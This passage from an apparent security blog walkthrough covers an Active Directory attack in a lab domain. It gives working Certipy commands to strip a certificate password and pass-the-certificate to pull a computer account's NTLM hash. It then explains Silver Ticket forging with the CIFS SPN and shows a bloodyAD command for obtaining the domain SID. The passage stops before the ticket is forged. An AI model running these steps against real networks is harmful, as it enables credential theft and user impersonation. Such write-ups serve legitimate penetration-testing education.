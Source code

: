## Retrieving NTLM using certificate with Certipy (Pass the Certificate)

We can use the certificate to authenticate as WS01$ using the .pfx and retrieve the NTLM of WS01$ back using certipy: [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy). Certipy doesn’t support certificate passwords, so we will need to remove the password first by exporting it to a unprotected certificate:

```bash
certipy cert -export -pfx JJy1sqMv.pfx -password tcFQsi79LqvNVWZJMzCS -out "unprotected.pfx"
```

Now, we can use certipy with “unprotected.pfx” to retrieve the NTLM hash of WS01$:

```bash
certipy auth -pfx unprotected.pfx -dc-ip 10.10.1.128 -username 'WS01$' -domain powercorp.local
```

This results in:

![](/assets/img/posts/ntlmrelay2self/12.png)

## Creating a Silver Ticket with SPN CIFS

The Silver Ticket attack involves the exploitation of service tickets in Active Directory (AD) environments. This method relies on acquiring the NTLM hash of a service account, such as a computer account, to forge a Ticket Granting Service (TGS) ticket. With this forged ticket, an attacker can access specific services on the network, impersonating any user.

CIFS stands for Common Internet File System, which is a network file-sharing protocol. The CIFS service is highlighted as a common target for accessing the victim's file system.

Since we have the NTLM hash of WS01$ (a computer account), we can forge a TGS ticket using the CIFS SPN with impacket-ticketer. But we will first need the domain-sid. We can use bloodyAD to retrieve the objectSid attribute of a object and remove the security identifier. A well known SID is the administrator SID 500. 

```bash
┌──(kali㉿kali)-[~/blog]
└─$ bloodyAD -u incendium -p Password123 -d powercorp.local --host 10.10.1.128 get object Administrator --attr objectSid

distinguishedName: CN=Administrator,CN=Users,DC=powercorp,DC=local
objectSid: S-1-5-21-959419240-2884325028-3653872830-500
```
